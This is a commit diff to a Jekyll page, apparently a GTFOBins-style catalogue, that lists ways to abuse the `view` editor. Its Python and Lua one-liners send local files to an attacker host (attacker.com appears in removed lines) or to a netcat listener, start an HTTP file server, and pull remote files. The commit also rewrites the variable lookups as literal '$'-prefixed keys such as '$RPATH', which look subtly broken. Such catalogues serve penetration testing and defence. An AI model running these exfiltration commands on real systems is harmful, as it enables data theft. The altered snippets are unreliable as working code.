

Before and after one commit to GTFOud/GTFOud.github.io, a Jekyll site: the page built from _gtfoud/view.md, in a window 1280 px wide and 1400 px high, cut to the strip 339-1400 px from the top of the window. Shown: the whole strip, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update view.md

```diff
--- a/_gtfoud/view.md
+++ b/_gtfoud/view.md
@@ -3,54 +3,45 @@
   file-upload:
     - description: This requires that `view` is compiled with Python support. Prepend `:py3` for Python 3. Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
       code: |
-        export URL=http://attacker.com/
-        export LFILE=file_to_send
         view -c ':py import vim,sys; from os import environ as e
         if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
         else: import urllib as u, urllib2 as r
-        r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))
+        r.urlopen(e["$RPATH"], bytes(u.urlencode({"d":open(e["$LFILE"]).read()}).encode()))
         vim.command(":q!")'
-    - description: This requires that `view` is compiled with Python support. Prepend `:py3` for Python 3. Serve files in the local folder running an HTTP server.
+    - description: Send a local file via TCP. Run `nc -l -p 4444 > "file_to_save"` on the attacker box to collect the file. This requires that `view` is compiled with Lua support and that `lua-socket` is installed.
       code: |
-        export LPORT=8888
-        view -c ':py import vim,sys; from os import environ as e
-        if sys.version_info.major == 3: import http.server as s, socketserver as ss
-        else: import SimpleHTTPServer as s, SocketServer as ss
-        ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()
-        vim.command(":q!")'
-    - description: Send a local file via TCP. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file. This requires that `view` is compiled with Lua support and that `lua-socket` is installed.
-      code: |
-        export RHOST=attacker.com
-        export RPORT=12345
-        export LFILE=file_to_send
-        view -c ':lua local f=io.open(os.getenv("LFILE"), 'rb')
+        view -c ':lua local f=io.open(os.getenv("$LFILE"), 'rb')
           local d=f:read("*a")
           io.close(f);
           local s=require("socket");
           local t=assert(s.tcp());
-          t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
+          t:connect(os.getenv("$RHOST"),os.getenv("$RPORT"));
           t:send(d);
           t:close();'
+  server:
+    - description: This requires that `view` is compiled with Python support. Prepend `:py3` for Python 3. Serve files in the local folder running an HTTP server.
+      code: |
+        view -c ':py import vim,sys; from os import environ as e
+        if sys.version_info.major == 3: import http.server as s, socketserver as ss
+        else: import SimpleHTTPServer as s, SocketServer as ss
+        ss.TCPServer(("", int(e["$LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()
+        vim.command(":q!")'
   file-download:
     - description: This requires that `view` is compiled with Python support. Prepend `:py3` for Python 3. Fetch a remote file via HTTP GET request.
       code: |
-        export URL=http://attacker.com/file_to_get
-        export LFILE=file_to_save
         view -c ':py import vim,sys; from os import environ as e
         if sys.version_info.major == 3: import urllib.request as r
         else: import urllib as r
-        r.urlretrieve(e["URL"], e["LFILE"])
+        r.urlretrieve(e["$RPATH"], e["$NFILE"])
         vim.command(":q!")'
-    - description: Fetch a remote file via TCP. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file. This requires that `view` is compiled with Lua support and that `lua-socket` is installed.
+    - description: Fetch a remote file via TCP. Run `nc target.com 4444 < "file_to_send"` on the attacker box to send the file. This requires that `view` is compiled with Lua support and that `lua-socket` is installed.
       code: |
-        export LPORT=12345
-        export LFILE=file_to_save
         view -c ':lua local k=require("socket");
-          local s=assert(k.bind("*",os.getenv("LPORT")));
+          local s=assert(k.bind("*",os.getenv("$LPORT")));
           local c=s:accept();
           local d,x=c:receive("*a");
           c:close();
-          local f=io.open(os.getenv("LFILE"), "wb");
+          local f=io.open(os.getenv("$NFILE"), "wb");
           f:write(d);
           io.close(f);'
 ---
```
